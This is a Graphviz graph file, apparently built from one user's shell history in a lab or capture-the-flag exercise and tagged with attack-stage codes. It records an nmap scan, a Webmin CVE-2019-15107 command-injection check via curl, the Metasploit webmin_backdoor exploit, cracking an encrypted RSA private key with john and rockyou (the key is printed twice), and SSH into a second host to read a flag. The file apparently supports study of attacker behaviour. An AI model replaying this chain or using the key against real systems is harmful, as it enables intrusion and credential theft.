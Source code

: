 // creating graph for user: 71
digraph {
	node [shape=box]
	0 [label="nmap 172.18.1.5 M0 "]
	1 [label="metasploit U"]
	2 [label="metasploit U"]
	3 [label="msfconsole M2 "]
	4 [label="msfconsole M2 "]
	5 [label="sudo service postgresql start U"]
	6 [label="msfdb init U"]
	7 [label="msfconsole M2 "]
	8 [label="db_nmap 172.18.1.5 M0 "]
	9 [label="help U"]
	10 [label="analyze U"]
	11 [label="show exploits M8 "]
	12 [label="cd Downloads/ U"]
	13 [label="ls A10 "]
	14 [label="chmod A15 "]
	15 [label="chmod +x 47293.sh A15 "]
	16 [label="./47293.sh U"]
	17 [label="vi 47293.sh U"]
	18 [label="cd Downloads/ U"]
	19 [label="./47293.sh 47293.sh http://172.18.1.5:10000/ U"]
	20 [label="./47293.sh 47293.sh http://172.18.1.5:10000 U"]
	21 [label="sh 47293.sh 47293.sh http://172.18.1.5:10000 U"]
	22 [label="sh 47293.sh 47293.sh http://172.18.1.5:10000 U"]
	23 [label="cat 47293.sh A1 A9 A11 A12 A17 "]
	24 [label="sh 47293.sh 47293.sh http://172.18.1.5:10000 U"]
	25 [label="vim CVE-2019-15107.sh U"]
	26 [label="sh CVE-2019-15107.sh U"]
	27 [label="sh CVE-2019-15107.sh #!/bin/sh U"]
	28 [label="FLAG=f3a0c13c3765137bcde68572707ae5c0 U"]
	29 [label="URI=$1; U"]
	30 [label="echo -n Testing for RCE (CVE-2019-15107) on $URI: ; U"]
	31 [label="curl -ks $URI'/password_change.cgi' -d 'user=wheel&pam=&expired=2&old=id A1 A4 A9 A11 A12 A17 "]
	32 [label="if [ $? -eq 0 ]; then echo '033[0;31mVULNERABLE!033[0m'; else echo '033[0;32mOK! (target is not vulnerable)033[0m'; fi A10 "]
	33 [label="ls A10 "]
	34 [label="cat CVE-2019-15107.sh A1 A9 A11 A12 A17 "]
	35 [label="cat CVE-2019-15107.sh http://172.18.1.5:10000 A1 A9 A11 A12 A17 "]
	36 [label="sh CVE-2019-15107.sh http://172.18.1.5:10000 U"]
	37 [label="msfconsole M2 "]
	38 [label="exit U"]
	39 [label="msfcli U"]
	40 [label="msfconsole M2 "]
	41 [label="show exploit M8 "]
	42 [label="search CVE-2019-15107 A3 "]
	43 [label="use exploit/unix/webapp/webmin_backdoor  M8 "]
	44 [label="check A7 "]
	45 [label="set RHOSTS https://localhost:10000 M6 "]
	46 [label="set RHOST https://localhost:10000 A6 "]
	47 [label="show options M5 "]
	48 [label="set RHOST 172.18.1.5 A6 "]
	49 [label="show options M5 "]
	50 [label="check A7 "]
	51 [label="exploit M8 "]
	52 [label="check A7 "]
	53 [label="exploit M8 "]
	54 [label="set LHOST 0.0.0.0 M6 "]
	55 [label="exploit M8 "]
	56 [label="show A5 "]
	57 [label="show options M5 "]
	58 [label="exploit M8 "]
	59 [label="set LHOST 10.1.135.83 M6 "]
	60 [label="exploit M8 "]
	61 [label="msfconsole M2 "]
	62 [label="check A7 "]
	63 [label="exit U"]
	64 [label="use exploit/unix/webapp/webmin_backdoor M8 "]
	65 [label="set RHOST 172.18.1.5 A6 "]
	66 [label="set LHOST 10.1.135.83 M6 "]
	67 [label="check A7 "]
	68 [label="ssh 172.18.1.5 A16 "]
	69 [label="ssh 172.18.1.5:39680 A16 "]
	70 [label="ssh localhost:4444 A16 "]
	71 [label="ssh 127.0.0.1:4444 A16 "]
	72 [label="ssh 127.0.0.1 -p 4444 A16 "]
	73 [label="msfconsole M2 "]
	74 [label="use exploit/unix/webapp/webmin_backdoor  M8 "]
	75 [label="set RHOST 172.18.1.5 A6 "]
	76 [label="set LHOST 10.1.135.83 M6 "]
	77 [label="check A7 "]
	78 [label="exploit M8 "]
	79 [label="ssh 172.18.1.5 A16 "]
	80 [label="ssh kocm@172.18.1.5 A16 "]
	81 [label="ssh 172.18.1.5 A16 "]
	82 [label="vi key U"]
	83 [label="john key A14 "]
	84 [label="john .-----BEGIN RSA PRIVATE KEY----- A14 "]
	85 [label="Proc-Type: 4 U"]
	86 [label="DEK-Info: AES-128-CBC U"]
	87 [label="Ps9uCxB/vjzzEwZU+BjohF/sb/kaa+thfeYki9iFGqVQpHbPhdZU7JO2rKTU3w4k U"]
	88 [label="2OG1q9DAD07fQPpCmX5vqWAdmeaWq//2k3zRVsadFF3daPGjWs1f61j4/JqYBSDl U"]
	89 [label="yeX8g98mtBLBas7bUFuo4jVroEUaoF0fpa0Up+mOAC3rY3tsprpfofQu+uoXaRRJ U"]
	90 [label="Bq2CuS5LcqbfVfl9737XeC+DNls/AmkLmYU/1NLKp1hWSpx0/dfJu725tDOtR6zB A10 "]
	91 [label="9lS9eEPebv4V8mUNU+bsh5YQbVrVmryO9BRLBl4ZK82SO7tnyObpWfsa2jLGg4Mp U"]
	92 [label="N/jFdUnWSkA2wEgzupDZmPU6jyJ/BosOxJVkih4oQB1s9BO+HzI7oA5sDfO/gw1R U"]
	93 [label="BdC2V8RnF8i8gwppc2eenbU/PIdDTu6M2LTO4aAM5wxwKXgkTdJuUxmNH4DCFgZ+ U"]
	94 [label="/DJyNP3xqCknFLIVTBwVSsHqnHSN6ZCl8BteFdRsf6kAj6qm1/cAfL73otlGZyR7 U"]
	95 [label="5PHI1jf+WoJVaRKQLzFfaMrY0rhU6TsQTYdm2QYcSszE1fhLdXGNKpathYz1sUhe U"]
	96 [label="RPbgJfB0PuzwpzcKesh5j+AnjKQjZcG1vHnrgvDFnd5VNOOrTzdUnMA0DwwVwm2S U"]
	97 [label="vkjUvPbdIkQlNuBL0FWZl/2vHf/xWWex4Q0plLf7lRWJsCDtiKflKHL/SBFYVy0F U"]
	98 [label="TwKMZJ4885lBJfN3AG9kj4azCLK6IcAuRoxTmAtYrntQWLtDCHyaCW6dZItCtQK2 U"]
	99 [label="pghYqk7inYawVLDG9f5ej+1MYQNfScZYpQ/IEH2jfbRgQsXj7zgtS9ewQoyqBY2o U"]
	100 [label="TC+mWTFkXW5YlN9Bu1uZ2CgYQJF0Dx1ns5x3IeF+U5z56KRqaKFJPfRQgTg62m7e U"]
	101 [label="0v/8aKPlPwfmS28OtxtE96zQI3SAAy7AdwkBepz5Pk9iotqIQPk5fY68wBG67v+a U"]
	102 [label="d712Dnn4OPYaqzMTyWz/dRiWcax9bFhNV+9Gp1OoA7hhBO5daLoul3EYx54vd8N3 U"]
	103 [label="qJkjc4ljMYr9wvRRcWEhlvQV6LTk2FiYOY4tjRneLXMfsb2BUwSFDXDwDL4zVF5X U"]
	104 [label="rk6oUkbp2aFy5SgMwdlm6tc5sHVHVOLTfeyv7AvRUOaGXbbrUBw1rxgswjSO4V5q U"]
	105 [label="anC3ZW1EHY/nUmSq9myKG5rPdgFhqx7lPBb5eXSGcA+rFkxkQwbtROw73mu00IXl U"]
	106 [label="FKuYCbpmfnY0ZBxR9NVh/kRpv5VI013Mwqk2lcuJTc+mjlHOymyXAhY02j218KSm U"]
	107 [label="TleEMFlW9oXD56B21kVdPDP9McdLgC9//2pSh8sI5kJEsNd294g8ju/dDNC5kybN U"]
	108 [label="aqa9d+Nsbodr90LgBOFRdtxUeYihXLS2ZfXE5wYfTwX17ZIoFLuYamE6Og7AllVL U"]
	109 [label="uSoF68eAZXd6R9bL03s9HQvGkSZv8zaFlmK4wRVI5frYMlU5gzD5E/e6Id5X7uCQ U"]
	110 [label="pq5zI0lH1Vf4jlhYpD/PXMmULzR28OIOVrkcUeZPVlv+aIpLd6zbe8mfIEDCzH9G U"]
	111 [label="Q9Z2LPIWU200w5daHsXp/qukKdDn1CB4JinKvtLka3Q4i6EHj+Vp7bvhmFpapjdW U"]
	112 [label="/BXnD+JMm+w9ZTRsHqrXKsAEyVhM99hWoFz2k1s+Q003y/7I/0XmPETD4GJZAfqX U"]
	113 [label="WzolChBDCjWIMZ/9j5JREtzWX3s7+k32TFws/jPKzXEB21M2Szn23pkoXp+zyqT6 U"]
	114 [label="bTXmV+hQf+gS7PjVRthqPONau6on19uDDVXNeuVygP4T8H5v6kAurFVX1rvkbaSm U"]
	115 [label="sCLJmNBb/7o7QR1Hhvo7NN1z85CJr9yxC6MqLbbcv91Mhb3w1Ce2eL+QnhgE86HE U"]
	116 [label="I0lvTSHTPFgvw00pV4bypACc28X+0YjRVRFOxqZxidw256pubOjRjIHIG5n6eMYk U"]
	117 [label="W3XiLqeGN7DLwY8X6RXfqafVQmJR6j3zB/PAoSVh25eTQwl2i1rgYzo0IGcdwUxN U"]
	118 [label="KHGCl8kHWe7ks3KT4+WU9uZZAhAECaWJvLzo2Ba6dst/Ke7KEtmGwv5ExUUvfHve U"]
	119 [label="0mt+olWJFSJa072UPuHe7gWdlexqh0l59q4ohOG+zJke1u74Br9wo6KIv54IqGVS U"]
	120 [label="y2O0rVCjsin3d2h9F0Fp0Xvc3EHZD7ct2HvZEV6x3kUlfdWeHKuF+7wUeTJfSmvq U"]
	121 [label="9+LnogQTclKAVk8htnrxBQh7aPLBAyTaXACAL31bB0ZXfh0yhJX6bXIe+EVPNaf6 U"]
	122 [label="rJf/WLYf6/Lmfgv/ECF+VqdLPGkLT8dEgrajh9t2TaoU+/+mxtGXaJ7Iea9I+g9l U"]
	123 [label="22unE+jCDSQMF9IygWb8HfzBsruZ7IQ+/h7g7XDpEZrJf6+mdmbzBXLwlnnD1XG3 U"]
	124 [label="FEJ08UNnUQsuqoD+vPxunBwkFv5b/5yt0XMu9tZdXk9AW9BdasCIE1bY+au0cnTX U"]
	125 [label="rjmFQ+KmCqH5lReI0Ai3fJ8pnZ2D3/m7AV/1llNaijp9NmriqK0jiVBpnEM+uH3a U"]
	126 [label="WtUQOqd4QS2S8MwjPoBZ0hpXOY0JX95EvWhp58uOy0/o8yYSbb+bZe7g0+MJuF9R U"]
	127 [label="Rj6xI5CiBdDo83VdQHlyaUawTlv/wUpqSRc9xsK/y2dLjzQhAD+QkWbm98jrcAGX U"]
	128 [label="Tlqk1XDm0e9sNcXus5d5pnTWeCH4bnwnQDo0Ot/KljNmnG11/FXuPFnAToOq52Az U"]
	129 [label="SqV4xTHhlfTZQcjVD+Rc44JkIFTr2gzDvcLOOMwcBf232/ySokL9xuMlLVc04Jy2 U"]
	130 [label="pG3A2vBQ1t0A62BglfKCobl9JVRwFhIIh4dzevvvtCuWnXk7AhodGIVF2XnBezou U"]
	131 [label="q5ydQjEjf0ByejEAZt7EM14Ey9sHQhX83OWMb7Brqfzsfapkuplvnj1+kmIrKUaA U"]
	132 [label="ytH5k1zr7ZQ5k2FasEDPwdVjSQfOW8G3CJ8GgpFokCL+KiwfvR3mJBM5ubn0di2z U"]
	133 [label="UG2CX9gT4nU7h9RAhtu2p/F5FEGLVbX5GxJhvKP11MQqSsWI3OY3gTvG6campkyD U"]
	134 [label="r4aMTuuESZSksPLDMwgkYTvWp/qaNnVpqaSHe1p2hk2DvEhIH7eSkK9gAPBLkcJ7 U"]
	135 [label="sah7VmkiXIRvhXdcVA/QXlpG7NfOVGfm/zVDfpWPAGUrGegNb3X5Y6QTzDE4lhcK U"]
	136 [label="john --wordlist=-----BEGIN RSA PRIVATE KEY----- M14 "]
	137 [label="Proc-Type: 4 U"]
	138 [label="DEK-Info: AES-128-CBC U"]
	139 [label="Ps9uCxB/vjzzEwZU+BjohF/sb/kaa+thfeYki9iFGqVQpHbPhdZU7JO2rKTU3w4k U"]
	140 [label="2OG1q9DAD07fQPpCmX5vqWAdmeaWq//2k3zRVsadFF3daPGjWs1f61j4/JqYBSDl U"]
	141 [label="yeX8g98mtBLBas7bUFuo4jVroEUaoF0fpa0Up+mOAC3rY3tsprpfofQu+uoXaRRJ U"]
	142 [label="Bq2CuS5LcqbfVfl9737XeC+DNls/AmkLmYU/1NLKp1hWSpx0/dfJu725tDOtR6zB A10 "]
	143 [label="9lS9eEPebv4V8mUNU+bsh5YQbVrVmryO9BRLBl4ZK82SO7tnyObpWfsa2jLGg4Mp U"]
	144 [label="N/jFdUnWSkA2wEgzupDZmPU6jyJ/BosOxJVkih4oQB1s9BO+HzI7oA5sDfO/gw1R U"]
	145 [label="BdC2V8RnF8i8gwppc2eenbU/PIdDTu6M2LTO4aAM5wxwKXgkTdJuUxmNH4DCFgZ+ U"]
	146 [label="/DJyNP3xqCknFLIVTBwVSsHqnHSN6ZCl8BteFdRsf6kAj6qm1/cAfL73otlGZyR7 U"]
	147 [label="5PHI1jf+WoJVaRKQLzFfaMrY0rhU6TsQTYdm2QYcSszE1fhLdXGNKpathYz1sUhe U"]
	148 [label="RPbgJfB0PuzwpzcKesh5j+AnjKQjZcG1vHnrgvDFnd5VNOOrTzdUnMA0DwwVwm2S U"]
	149 [label="vkjUvPbdIkQlNuBL0FWZl/2vHf/xWWex4Q0plLf7lRWJsCDtiKflKHL/SBFYVy0F U"]
	150 [label="TwKMZJ4885lBJfN3AG9kj4azCLK6IcAuRoxTmAtYrntQWLtDCHyaCW6dZItCtQK2 U"]
	151 [label="pghYqk7inYawVLDG9f5ej+1MYQNfScZYpQ/IEH2jfbRgQsXj7zgtS9ewQoyqBY2o U"]
	152 [label="TC+mWTFkXW5YlN9Bu1uZ2CgYQJF0Dx1ns5x3IeF+U5z56KRqaKFJPfRQgTg62m7e U"]
	153 [label="0v/8aKPlPwfmS28OtxtE96zQI3SAAy7AdwkBepz5Pk9iotqIQPk5fY68wBG67v+a U"]
	154 [label="d712Dnn4OPYaqzMTyWz/dRiWcax9bFhNV+9Gp1OoA7hhBO5daLoul3EYx54vd8N3 U"]
	155 [label="qJkjc4ljMYr9wvRRcWEhlvQV6LTk2FiYOY4tjRneLXMfsb2BUwSFDXDwDL4zVF5X U"]
	156 [label="rk6oUkbp2aFy5SgMwdlm6tc5sHVHVOLTfeyv7AvRUOaGXbbrUBw1rxgswjSO4V5q U"]
	157 [label="anC3ZW1EHY/nUmSq9myKG5rPdgFhqx7lPBb5eXSGcA+rFkxkQwbtROw73mu00IXl U"]
	158 [label="FKuYCbpmfnY0ZBxR9NVh/kRpv5VI013Mwqk2lcuJTc+mjlHOymyXAhY02j218KSm U"]
	159 [label="TleEMFlW9oXD56B21kVdPDP9McdLgC9//2pSh8sI5kJEsNd294g8ju/dDNC5kybN U"]
	160 [label="aqa9d+Nsbodr90LgBOFRdtxUeYihXLS2ZfXE5wYfTwX17ZIoFLuYamE6Og7AllVL U"]
	161 [label="uSoF68eAZXd6R9bL03s9HQvGkSZv8zaFlmK4wRVI5frYMlU5gzD5E/e6Id5X7uCQ U"]
	162 [label="pq5zI0lH1Vf4jlhYpD/PXMmULzR28OIOVrkcUeZPVlv+aIpLd6zbe8mfIEDCzH9G U"]
	163 [label="Q9Z2LPIWU200w5daHsXp/qukKdDn1CB4JinKvtLka3Q4i6EHj+Vp7bvhmFpapjdW U"]
	164 [label="/BXnD+JMm+w9ZTRsHqrXKsAEyVhM99hWoFz2k1s+Q003y/7I/0XmPETD4GJZAfqX U"]
	165 [label="WzolChBDCjWIMZ/9j5JREtzWX3s7+k32TFws/jPKzXEB21M2Szn23pkoXp+zyqT6 U"]
	166 [label="bTXmV+hQf+gS7PjVRthqPONau6on19uDDVXNeuVygP4T8H5v6kAurFVX1rvkbaSm U"]
	167 [label="sCLJmNBb/7o7QR1Hhvo7NN1z85CJr9yxC6MqLbbcv91Mhb3w1Ce2eL+QnhgE86HE U"]
	168 [label="I0lvTSHTPFgvw00pV4bypACc28X+0YjRVRFOxqZxidw256pubOjRjIHIG5n6eMYk U"]
	169 [label="W3XiLqeGN7DLwY8X6RXfqafVQmJR6j3zB/PAoSVh25eTQwl2i1rgYzo0IGcdwUxN U"]
	170 [label="KHGCl8kHWe7ks3KT4+WU9uZZAhAECaWJvLzo2Ba6dst/Ke7KEtmGwv5ExUUvfHve U"]
	171 [label="0mt+olWJFSJa072UPuHe7gWdlexqh0l59q4ohOG+zJke1u74Br9wo6KIv54IqGVS U"]
	172 [label="y2O0rVCjsin3d2h9F0Fp0Xvc3EHZD7ct2HvZEV6x3kUlfdWeHKuF+7wUeTJfSmvq U"]
	173 [label="9+LnogQTclKAVk8htnrxBQh7aPLBAyTaXACAL31bB0ZXfh0yhJX6bXIe+EVPNaf6 U"]
	174 [label="rJf/WLYf6/Lmfgv/ECF+VqdLPGkLT8dEgrajh9t2TaoU+/+mxtGXaJ7Iea9I+g9l U"]
	175 [label="22unE+jCDSQMF9IygWb8HfzBsruZ7IQ+/h7g7XDpEZrJf6+mdmbzBXLwlnnD1XG3 U"]
	176 [label="FEJ08UNnUQsuqoD+vPxunBwkFv5b/5yt0XMu9tZdXk9AW9BdasCIE1bY+au0cnTX U"]
	177 [label="rjmFQ+KmCqH5lReI0Ai3fJ8pnZ2D3/m7AV/1llNaijp9NmriqK0jiVBpnEM+uH3a U"]
	178 [label="WtUQOqd4QS2S8MwjPoBZ0hpXOY0JX95EvWhp58uOy0/o8yYSbb+bZe7g0+MJuF9R U"]
	179 [label="Rj6xI5CiBdDo83VdQHlyaUawTlv/wUpqSRc9xsK/y2dLjzQhAD+QkWbm98jrcAGX U"]
	180 [label="Tlqk1XDm0e9sNcXus5d5pnTWeCH4bnwnQDo0Ot/KljNmnG11/FXuPFnAToOq52Az U"]
	181 [label="SqV4xTHhlfTZQcjVD+Rc44JkIFTr2gzDvcLOOMwcBf232/ySokL9xuMlLVc04Jy2 U"]
	182 [label="pG3A2vBQ1t0A62BglfKCobl9JVRwFhIIh4dzevvvtCuWnXk7AhodGIVF2XnBezou U"]
	183 [label="q5ydQjEjf0ByejEAZt7EM14Ey9sHQhX83OWMb7Brqfzsfapkuplvnj1+kmIrKUaA U"]
	184 [label="ytH5k1zr7ZQ5k2FasEDPwdVjSQfOW8G3CJ8GgpFokCL+KiwfvR3mJBM5ubn0di2z U"]
	185 [label="UG2CX9gT4nU7h9RAhtu2p/F5FEGLVbX5GxJhvKP11MQqSsWI3OY3gTvG6campkyD U"]
	186 [label="r4aMTuuESZSksPLDMwgkYTvWp/qaNnVpqaSHe1p2hk2DvEhIH7eSkK9gAPBLkcJ7 U"]
	187 [label="sah7VmkiXIRvhXdcVA/QXlpG7NfOVGfm/zVDfpWPAGUrGegNb3X5Y6QTzDE4lhcK U"]
	188 [label="clear U"]
	189 [label="john --wordlist=/usr/share/wordlists/rockyou.txt key M14 "]
	190 [label="/usr/share/john/ssh2john.py key A14 A16 "]
	191 [label="/usr/share/john/ssh2john.py key > key2 A14 A16 "]
	192 [label="john key@ A14 "]
	193 [label="john key2 A14 "]
	194 [label="john --wordlist=/usr/share/wordlists/rockyou.txt key@ M14 "]
	195 [label="john --wordlist=/usr/share/wordlists/rockyou.txt key2 M14 "]
	196 [label="cp key ./.ssh/id_rsa A16 "]
	197 [label="cd U"]
	198 [label="cd .ssh A16 "]
	199 [label="cat id_rsa M12 "]
	200 [label="ssh 10.1.17.4 A16 "]
	201 [label="ssh eve@sh 10.1.17.4 M16 "]
	202 [label="ssh eve@10.1.17.4 M16 "]
	203 [label="ls A10 "]
	204 [label="openssl U"]
	205 [label="openssl rsa -in id_rsa -out key U"]
	206 [label="ls A10 "]
	207 [label="cat key A1 A9 A11 A12 A17 "]
	208 [label="mv key id_rsa U"]
	209 [label="ssh eve@10.1.17.4 M16 "]
	210 [label="ls A10 "]
	211 [label="cd top-secret/ U"]
	212 [label="ls A10 "]
	213 [label="cat flag.txt M17 "]
	0 -> 1 [constraint=false]
	1 -> 2 [constraint=false]
	2 -> 3 [constraint=false]
	3 -> 4 [constraint=false]
	4 -> 5 [constraint=false]
	5 -> 6 [constraint=false]
	6 -> 7 [constraint=false]
	7 -> 8 [constraint=false]
	8 -> 9 [constraint=false]
	9 -> 10 [constraint=false]
	10 -> 11 [constraint=false]
	11 -> 12 [constraint=false]
	12 -> 13 [constraint=false]
	13 -> 14 [constraint=false]
	14 -> 15 [constraint=false]
	15 -> 16 [constraint=false]
	16 -> 17 [constraint=false]
	17 -> 18 [constraint=false]
	18 -> 19 [constraint=false]
	19 -> 20 [constraint=false]
	20 -> 21 [constraint=false]
	21 -> 22 [constraint=false]
	22 -> 23 [constraint=false]
	23 -> 24 [constraint=false]
	24 -> 25 [constraint=false]
	25 -> 26 [constraint=false]
	26 -> 27 [constraint=false]
	27 -> 28 [constraint=false]
	28 -> 29 [constraint=false]
	29 -> 30 [constraint=false]
	30 -> 31 [constraint=false]
	31 -> 32 [constraint=false]
	32 -> 33 [constraint=false]
	33 -> 34 [constraint=false]
	34 -> 35 [constraint=false]
	35 -> 36 [constraint=false]
	36 -> 37 [constraint=false]
	37 -> 38 [constraint=false]
	38 -> 39 [constraint=false]
	39 -> 40 [constraint=false]
	40 -> 41 [constraint=false]
	41 -> 42 [constraint=false]
	42 -> 43 [constraint=false]
	43 -> 44 [constraint=false]
	44 -> 45 [constraint=false]
	45 -> 46 [constraint=false]
	46 -> 47 [constraint=false]
	47 -> 48 [constraint=false]
	48 -> 49 [constraint=false]
	49 -> 50 [constraint=false]
	50 -> 51 [constraint=false]
	51 -> 52 [constraint=false]
	52 -> 53 [constraint=false]
	53 -> 54 [constraint=false]
	54 -> 55 [constraint=false]
	55 -> 56 [constraint=false]
	56 -> 57 [constraint=false]
	57 -> 58 [constraint=false]
	58 -> 59 [constraint=false]
	59 -> 60 [constraint=false]
	60 -> 61 [constraint=false]
	61 -> 62 [constraint=false]
	62 -> 63 [constraint=false]
	63 -> 64 [constraint=false]
	64 -> 65 [constraint=false]
	65 -> 66 [constraint=false]
	66 -> 67 [constraint=false]
	67 -> 68 [constraint=false]
	68 -> 69 [constraint=false]
	69 -> 70 [constraint=false]
	70 -> 71 [constraint=false]
	71 -> 72 [constraint=false]
	72 -> 73 [constraint=false]
	73 -> 74 [constraint=false]
	74 -> 75 [constraint=false]
	75 -> 76 [constraint=false]
	76 -> 77 [constraint=false]
	77 -> 78 [constraint=false]
	78 -> 79 [constraint=false]
	79 -> 80 [constraint=false]
	80 -> 81 [constraint=false]
	81 -> 82 [constraint=false]
	82 -> 83 [constraint=false]
	83 -> 84 [constraint=false]
	84 -> 85 [constraint=false]
	85 -> 86 [constraint=false]
	86 -> 87 [constraint=false]
	87 -> 88 [constraint=false]
	88 -> 89 [constraint=false]
	89 -> 90 [constraint=false]
	90 -> 91 [constraint=false]
	91 -> 92 [constraint=false]
	92 -> 93 [constraint=false]
	93 -> 94 [constraint=false]
	94 -> 95 [constraint=false]
	95 -> 96 [constraint=false]
	96 -> 97 [constraint=false]
	97 -> 98 [constraint=false]
	98 -> 99 [constraint=false]
	99 -> 100 [constraint=false]
	100 -> 101 [constraint=false]
	101 -> 102 [constraint=false]
	102 -> 103 [constraint=false]
	103 -> 104 [constraint=false]
	104 -> 105 [constraint=false]
	105 -> 106 [constraint=false]
	106 -> 107 [constraint=false]
	107 -> 108 [constraint=false]
	108 -> 109 [constraint=false]
	109 -> 110 [constraint=false]
	110 -> 111 [constraint=false]
	111 -> 112 [constraint=false]
	112 -> 113 [constraint=false]
	113 -> 114 [constraint=false]
	114 -> 115 [constraint=false]
	115 -> 116 [constraint=false]
	116 -> 117 [constraint=false]
	117 -> 118 [constraint=false]
	118 -> 119 [constraint=false]
	119 -> 120 [constraint=false]
	120 -> 121 [constraint=false]
	121 -> 122 [constraint=false]
	122 -> 123 [constraint=false]
	123 -> 124 [constraint=false]
	124 -> 125 [constraint=false]
	125 -> 126 [constraint=false]
	126 -> 127 [constraint=false]
	127 -> 128 [constraint=false]
	128 -> 129 [constraint=false]
	129 -> 130 [constraint=false]
	130 -> 131 [constraint=false]
	131 -> 132 [constraint=false]
	132 -> 133 [constraint=false]
	133 -> 134 [constraint=false]
	134 -> 135 [constraint=false]
	135 -> 136 [constraint=false]
	136 -> 137 [constraint=false]
	137 -> 138 [constraint=false]
	138 -> 139 [constraint=false]
	139 -> 140 [constraint=false]
	140 -> 141 [constraint=false]
	141 -> 142 [constraint=false]
	142 -> 143 [constraint=false]
	143 -> 144 [constraint=false]
	144 -> 145 [constraint=false]
	145 -> 146 [constraint=false]
	146 -> 147 [constraint=false]
	147 -> 148 [constraint=false]
	148 -> 149 [constraint=false]
	149 -> 150 [constraint=false]
	150 -> 151 [constraint=false]
	151 -> 152 [constraint=false]
	152 -> 153 [constraint=false]
	153 -> 154 [constraint=false]
	154 -> 155 [constraint=false]
	155 -> 156 [constraint=false]
	156 -> 157 [constraint=false]
	157 -> 158 [constraint=false]
	158 -> 159 [constraint=false]
	159 -> 160 [constraint=false]
	160 -> 161 [constraint=false]
	161 -> 162 [constraint=false]
	162 -> 163 [constraint=false]
	163 -> 164 [constraint=false]
	164 -> 165 [constraint=false]
	165 -> 166 [constraint=false]
	166 -> 167 [constraint=false]
	167 -> 168 [constraint=false]
	168 -> 169 [constraint=false]
	169 -> 170 [constraint=false]
	170 -> 171 [constraint=false]
	171 -> 172 [constraint=false]
	172 -> 173 [constraint=false]
	173 -> 174 [constraint=false]
	174 -> 175 [constraint=false]
	175 -> 176 [constraint=false]
	176 -> 177 [constraint=false]
	177 -> 178 [constraint=false]
	178 -> 179 [constraint=false]
	179 -> 180 [constraint=false]
	180 -> 181 [constraint=false]
	181 -> 182 [constraint=false]
	182 -> 183 [constraint=false]
	183 -> 184 [constraint=false]
	184 -> 185 [constraint=false]
	185 -> 186 [constraint=false]
	186 -> 187 [constraint=false]
	187 -> 188 [constraint=false]
	188 -> 189 [constraint=false]
	189 -> 190 [constraint=false]
	190 -> 191 [constraint=false]
	191 -> 192 [constraint=false]
	192 -> 193 [constraint=false]
	193 -> 194 [constraint=false]
	194 -> 195 [constraint=false]
	195 -> 196 [constraint=false]
	196 -> 197 [constraint=false]
	197 -> 198 [constraint=false]
	198 -> 199 [constraint=false]
	199 -> 200 [constraint=false]
	200 -> 201 [constraint=false]
	201 -> 202 [constraint=false]
	202 -> 203 [constraint=false]
	203 -> 204 [constraint=false]
	204 -> 205 [constraint=false]
	205 -> 206 [constraint=false]
	206 -> 207 [constraint=false]
	207 -> 208 [constraint=false]
	208 -> 209 [constraint=false]
	209 -> 210 [constraint=false]
	210 -> 211 [constraint=false]
	211 -> 212 [constraint=false]
	212 -> 213 [constraint=false]
	rankdir=LR
}
